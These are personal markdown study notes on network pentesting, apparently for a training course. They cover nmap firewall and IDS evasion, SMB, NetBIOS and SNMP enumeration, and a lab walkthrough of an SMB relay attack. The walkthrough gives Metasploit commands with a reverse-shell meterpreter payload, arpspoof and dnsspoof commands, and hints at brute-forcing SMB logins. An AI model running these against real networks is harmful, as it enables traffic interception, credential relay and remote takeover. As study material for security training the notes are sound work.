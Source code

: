 # Host & Network Pentesting: Network-Based Attacks

## Networking Fundamentals

- Every packet has Header and Payload: Header is where it contain where is it from and where it is to, what protocol is it (tell the computer how to process it), payload is the stuff inside including higher OSI layers Header

## Firewall Detection & IDS Evasion

### how to use Nmap to bypass Firewall and IDS

- First, how to detect if there is a firewall (Open nmap -h manual and look at Firewall/IDS Evasion and spoofing session): Use sA scan, ACK scan will send an ACK packet, and it will tell us if it is open/unfiltered or filtered, if it is filtered, it is most likely there is a stateful firewall.

Fragmentation
- To Evade IDS and Firewall, a good skill is to fragment the packet
- `-f` flag to change the MTU, `--mtu` (Maximum traffic unit) to specific the mtu size, `nmap -Pn -sS -sV -F -f <IP>` vs `nmap -Pn -sS -sV -F <IP>` vs `nmap -Pn -sS -sV -F -f --mtu 8 <IP>`

Spoofing & Decoy (what hackersploit usually do)
- `-ttl and --data-lenth and -D (decoy ID)` is very useful to add variety
- `nmap -Pn -sS -sV -p445,3389 -f --data-length 200 -D <Decoy IP, usually we warm to set it from the gateway and broadcast since thats the least sus>`
- can change source port using the `-g` options like `-g 53`

Why disable DNS resolution using the `-n` option

1. ⚡ Speed:DNS lookups can significantly slow down scans — especially when scanning large IP ranges. Each IP might require a reverse DNS lookup, which introduces latency if DNS servers are slow or unresponsive.
2. 📉 Avoiding Noise & Detection: DNS queries can trigger security alerts or get logged, which might alert admins to your presence. Disabling resolution makes the scan more stealthy.
3. 📵 Unavailable DNS: On internal networks or CTFs, reverse DNS might not even be configured. Waiting for responses that never come wastes time.
4. 🎯 Accuracy & Clarity: Disabling DNS ensures Nmap just shows raw IP addresses instead of potentially misleading or incorrect hostnames.

## Network Enumeration

- Goal: service enumeration to gather additional, more specific/detailed info about hosts on a network and services running
- This phrase is to interact with the different protocols and ports open on the hosts, with the intent of eventually exploiting them

### SMB & NetBios Enum (Need further studies)
- They are 2 different technologies, but they're related in the context of networking and file sharing on windows networks.
- NetBios is an API and a set of network protocols for providing communication services over a local network, primarily to allow app on different computers to find and interact with each other on a network.
- 3 Primary Services of NetBIOS: 1) Name Service: Allow computers to register, unregister and resolve names in the network 2) Datagram Service: Supports connectionless communication and broadcasting 3) Session Service: Supports connection-oriented communication for more reliable data transfers.
- NetBIOS typically uses ports 137(Name), 138(Datagram), 139(Session) over UDP and TCP
- SMBv1 might also be vulnerable to null session (anonymous login)

Tools to use for netbios: nbtscan, nmblookup, nmap script=nbstat

Tools to use for smb: nmap script=smb-protocols, script=smb-security-mode, smb-enum-users

- After enumerating the user, we can use hydra to bf the smb login
- Then we can use psexec.py to login


### SNMP

- Used to monitor and manage networked devices such as routers, switches, printers, servers etc
- Allow network admin to query devices for status info, configure certain settings
- SNMP uses UDP, is an application layer protocol and involves 3 primary components:
  1) SNMP Manager: Responsible for querying and interacting with SNMP agents on networked devices
  2) SNMP Agent: Software running on the devices that responds to queries and sends traps
  3) Management Info Base(MIB): A gierarchical database that defines the structure fo data available through SNMP. Each piece of data has a unique Object Identifier(OID)
- Versions of SNMP:
  1) SNMPv1: Using community strings (essentially passwords) for authentication
  2) SNMPv2c: An improved version with support for bulk transfers but still relying on community strings for authentication
  3) SNMPv3: Introduced security features, including encryption, message integrity, and user-based authentication.
- Port used 161 (SNMP queries), 162 (SNMP traps-notifications)
- Enumerating SNMP is to querying the SNMP enableed devices, including misconfig, and potential vuln

Steps for SNMP Enum
1. Identify SNMP Enabled Devices: determine if the device got SNMP, whether they are vuln to info leakage or attacks
2. Extract System Information: Collect sys-related data such as device names, OS, software versions, network interfaces etc
3. Identify Community Strings: To gain legitamate accesss
4. 

### SMB Relay Attack

Theory: This attack involves three machines:
- a client machine (wishing to connect and authenticate with target machine using smb)
- attacker machine aka us
- the target machine (server with smb service)

**how it works**
1. Set up a rogued smb server with metasploit exploit/windows/smb/smb_relay module
   
```bash
  msfconsole
  use exploit/windows/smb/smb_relay
  set SRVHOST 172.16.5.101  //SRVHOST is the IP address of the attacker's fake SMB server
  set PAYLOAD windows/meterpreter/reverse_tcp //Payload to deliver upon successful relay
  set LHOST 172.16.5.101
  set SMBHOST 172.16.5.10 //The real SMB server (target machine)
  run
```

2. Set up ARP spoofing to redirect DNS traffic to us (for dns poisoning to work, it base on MAC address in the network. ARP spoofing poisons the ARP tables of both the client and the real DNS server so that they believe the attacker is the other party. This works because ARP is trust-based — machines update their ARP cache from unsolicited replies.)

```bash
  On separate terminal, run the following commands:
  arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
  arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```

3. Set up fake DNS resolve file

  `echo "172.16.5.101 *.sportsfoo.com" > dns`
  
5. Set up eth1 (same one as the one in arpspoof) as fake dns server's interface

  `dnsspoof -i eth1 -f dns`
  
6. Allow attacker machine to receive and forward network traffic instead of just receiving, by toggling the ip_forward file

  `echo 1 > /proc/sys/net/ipv4/ip_forward`

```
+----------------+          ARP Spoofed Traffic          +----------------+
|                |  <--------------------------------->  |                |
|   Client       |             (You = MITM)              |   SMB Server   |
| 172.16.5.5     |                                       | 172.16.5.10    |
+-------+--------+                                       +--------+-------+
        |                                                       ^
        |                                                       |
        v                                                       |
+----------------+   DNS Spoofing (sportsfoo.com → you)         |
|                |----------------------------------------------+
|   Attacker     |
| 172.16.5.101   |
| (MITM)         |
| - ARP spoofing |
| - DNS spoofing |
| - IP forwarding|
| - SMB relay    |
+----------------+
```

**How it will end up in when someone tries to connect to smb server:**
1. Client tries to resolve share.sportsfoo.com (DNS)
2. DNS request is intercepted by Attacker (due to ARP spoofing)
3. Attacker responds with their own IP (fake DNS response)
4. Client tries to connect to 172.16.5.101 (Attacker) over SMB
5. Attacker relays this SMB authentication to real SMB server
6. If successful, attacker gains session or replays credentials








